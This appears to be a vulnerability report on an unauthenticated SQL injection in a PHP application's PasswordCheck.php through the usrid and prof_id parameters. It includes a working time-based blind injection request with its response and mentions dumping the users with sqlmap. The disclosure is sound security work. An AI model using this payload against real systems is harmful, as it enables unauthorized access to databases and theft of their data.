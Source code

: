 # Description:

Because of lacking of sanitizer of input data at two parameters `$_GET['usrid']` and `$_GET['prof_id']` in `PasswordCheck.php` file, The Unauthenticated user can inject sql code and get all informations in database
![image](https://user-images.githubusercontent.com/54875703/131659500-dce4d9f4-d531-4635-ae99-db333e005aa2.png)

Use sqlmap tool dump users of database
![image](https://user-images.githubusercontent.com/54875703/131659600-b2ca64eb-cbf4-484a-88e1-c0e93788a091.png)

# To Reproduce

## SQL INJECTION

Steps to reproduce the behavior:
1. Acess `PasswordCheck.php` file 
2. Add `?password=P@a&usrid=[inject sql code in here]&prof_id=[inject sql code in here]` behind `PasswordCheck.php` file

### Request

```
GET /PasswordCheck.php?password=P@a&usrid=1&prof_id=1%27%20AND%20(SELECT%209714%20FROM%20(SELECT(SLEEP(5)))vGYX)--%20- HTTP/1.1
Host: 172.16.0.12:2222
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=bcq1n5bpstl0b93h22v51uv2sc
Upgrade-Insecure-Requests: 1

```

### Response

```
HTTP/1.1 200 OK
Date: Wed, 01 Sep 2021 10:46:49 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.21
X-Powered-By: PHP/7.4.21
Content-Length: 2
Connection: close
Content-Type: text/html; charset=UTF-8


0

```
